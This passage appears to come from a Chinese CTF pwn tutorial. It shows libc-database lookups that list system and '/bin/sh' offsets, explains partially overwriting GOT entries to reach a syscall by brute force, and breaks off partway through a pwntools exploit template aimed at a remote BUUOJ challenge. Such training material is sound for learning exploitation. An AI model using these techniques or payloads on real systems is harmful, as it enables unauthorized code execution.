 

另一个可以本地部署的实用工具是libc-database

```bash
$ ./find printf 260 puts f30
archive-glibc (libc6_2.19-10ubuntu2_i386)
$ ./dump libc6_2.19-0ubuntu6.6_i386
offset___libc_start_main_ret = 0x19a83
offset_system = 0x00040190
offset_dup2 = 0x000db590
offset_recv = 0x000ed2d0
offset_str_bin_sh = 0x160a24
$ ./identify bid=ebeabf5f7039f53748e996fc976b4da2d486a626
libc6_2.17-93ubuntu4_i386
$ ./identify md5=af7c40da33c685d67cdb166bd6ab7ac0
libc6_2.17-93ubuntu4_i386
$ ./identify sha1=9054f5cb7969056b6816b1e2572f2506370940c4
libc6_2.17-93ubuntu4_i386
$ ./identify sha256=8dc102c06c50512d1e5142ce93a6faf4ec8b6f5d9e33d2e1b45311aef683d9b2
libc6_2.17-93ubuntu4_i386
```





#### partial_overwrite

##### 前置知识

针对没有泄露的赛题，可以考虑partial_overwrite改写`got`表，实现system，因为一般而言，大部分libc函数，里面都存在syscall，所以syscall偏移和函数head_addr差别不会太大。

考虑对于一个`got`表中的64位地址:  0xXXXXXXXXXXXXX， 假设其附近的syscall地址后三位偏移为0xaaa(请确定这个偏移和got内函数偏移只有最后四个16位数字不同)， 因为libc装载地址以页为单位，后三位是确定0x000，那么partial_overwrite覆盖后面两个字节， 即覆盖`got`为0xXXXXXXXXfaaa，那么有1/16的几率恰好syscall

##### 爆破脚本写法

一个爆破脚本模板:

```python
from pwn import *
import sys

elf ='./ciscn_s_3'
remote_add = 'node4.buuoj.cn'
remote_port = 29554

main_add = 0x40051d
off = 0x130
system_add = 0x400517
rtframe = 0x4004da
ret_add = 0x4004e9

i = 0

while i < 20:
    try:
        context.log_level = 'debug'
        context.arch = 'amd64'
        if sys.argv[1] == 'r':
            p = remote(remote_add, remote_port, timeout = 1)
        elif sys.argv[1] == 'd':
            p = gdb.debug(elf)
        else:
            p = process(elf, timeout = 1)
        payload1 = b'/bin/sh\0' + cyclic(0x8)
        payload1+= p64(main_add)
```